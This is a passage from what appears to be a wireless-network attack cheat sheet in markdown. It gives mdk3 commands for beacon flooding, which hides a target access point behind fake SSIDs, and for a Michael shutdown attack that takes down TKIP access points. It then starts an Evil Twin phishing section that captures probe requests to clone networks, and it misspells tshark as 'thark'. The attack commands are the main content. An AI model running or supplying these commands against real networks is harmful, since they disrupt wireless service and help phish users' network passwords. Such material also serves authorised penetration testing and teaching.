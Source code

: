 In that case we busy the channel for:

$$
Time Busy = 10.000 packets * 30.000 us = 30s
$$

### Beacon Flood Mode Attack

The beacon frame is a frame that contains information about the access point such as the channel where the AP is working, ciphers, protocols, etc.

These type of beacons are transmitted in plain as other stations and devices need these frames to extract information in order to connect them.

The idea of Beacon Flood Attack such as his name says, flood a large number of beacons in order to create a lot of ESSID in the same Chanel as the target AP in order to make it invisible for users.

```
# Create a list of AP names:
MyNetwork1
MyNetwork2
MyNetwork3
MyNetwork4
MyNetwork5
MyNetwork6
MyNetwork7
MyNetwork8
MyNetwork9
MyNetwork10

mdk3 <IFACE> b -f networks.txt -a -s 1000 -c <CHANNEL>   # -a -> WPA2  -s <speed>
```

### Michael Shutdown Explotation

Can shut down APs using TKIP encryption and QoS Extension with 1 sniffed and 2 injected QoS Data Packets, but less effective.

```
mdk3 <IFACE> m -t <BSSID>
```

# Evil Twin

One of the most common techniques to obtain the password of a wireless network via phishing. It's common that the devices emit Probe Request frames when their are not associated to any AP. These Probe Request frame ares packets that contain information about which SSID the device was connected before. So we can abuse of that information in order to create a Fake AP with the same SSID.

```
thark -i <IFACE> -Y "wlan.fc.type_subtype==4" 2>/dev/null
   1 0.000000000 Apple_7d:1f:e9 → Broadcast    802.11 195 Probe Request, SN=1063, FN=0, Flags=........C, SSID=MOVISTAR_PLUS_2A51
    2 0.019968349 Apple_7d:1f:e9 → Broadcast    802.11 195 Probe Request, SN=1064, FN=0, Flags=........C, SSID=MOVISTAR_PLUS_2A51
```
